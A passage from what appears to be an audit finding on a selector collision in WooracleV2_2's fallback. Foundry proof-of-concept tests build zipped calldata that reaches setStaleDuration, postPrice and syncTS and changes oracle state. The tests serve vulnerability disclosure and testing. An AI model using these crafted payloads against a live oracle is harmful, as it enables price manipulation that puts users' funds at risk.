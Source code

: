 ````WooracleV2_2.fallback()```` is used to post zipped token price and state data to the contract for sake of gas saving. However, the first 4 bytes of zipped data are not reserved to distinguish the ````ZIP```` call and other normal call's function selector.
        assertEq(oracle.owner(), address(0));
    }

    function testCollisionWithSetStaleDuration() public {
        // selector of "setStaleDuration(uint256)": "0x99235fd4"
        bytes memory zip = _makeZipData({
            op: 2,
            length: 0x19,
            leadingBytesOfBody: abi.encodePacked(hex"235fd4")
        });
        assertEq(oracle.staleDuration(), 120); // default: 2 mins
        (bool success, ) = address(oracle).call(zip);
        assertEq(success, true);
        uint256 expectedStaleDuration;
        assembly {
            expectedStaleDuration := mload(add(zip, 36))
        }
        assertEq(oracle.staleDuration(), expectedStaleDuration);
        assertTrue(expectedStaleDuration != 120);
    }

    function testCollisionWithPostPrice() public {
        // selector of "postPrice(address,uint128)": "0xd5bade07"
        bytes memory addressAndPrice = abi.encode(address(0x1111), uint256(100));
        bytes memory zip = _makeZipData({
            op: 3,
            length: 0x15,
            leadingBytesOfBody: abi.encodePacked(hex"bade07", addressAndPrice)
        });
        (bool success, ) = address(oracle).call(zip);
        assertEq(success, true);
        (uint256 price, bool feasible) = oracle.price(address(0x1111));
        assertEq(price, 100);
        assertTrue(feasible);
    }

    function testCollisionWithSyncTS() public {
        // selector of "syncTS(uint256)": "4f1f1999"
        uint256 timestamp = 12345678;
        bytes memory zip = _makeZipData({
            op: 1,
            length: 0xf,
            leadingBytesOfBody: abi.encodePacked(hex"1f1999", timestamp)
        });
        (bool success, ) = address(oracle).call(zip);
        assertEq(success, true);
        assertEq(oracle.timestamp(), timestamp);
    }

    function _makeZipData(
        uint8 op,
        uint8 length,
        bytes memory leadingBytesOfBody
    ) internal returns (bytes memory result) {
        assertTrue(length < 2 ** 6);
        assertTrue(op < 4);
        bytes1 head = bytes1(uint8((op << 6) + (length & 0x3F)));
        uint256 sizeOfItem = op == 0 || op == 2 ? 5 : 13;
        uint256 sizeOfHead = 1;
        uint256 sizeOfBody = sizeOfItem * length;
        assertTrue(sizeOfBody >= leadingBytesOfBody.length);
        result = bytes.concat(head, leadingBytesOfBody, _makePseudoRandomBytes(sizeOfBody - leadingBytesOfBody.length));
````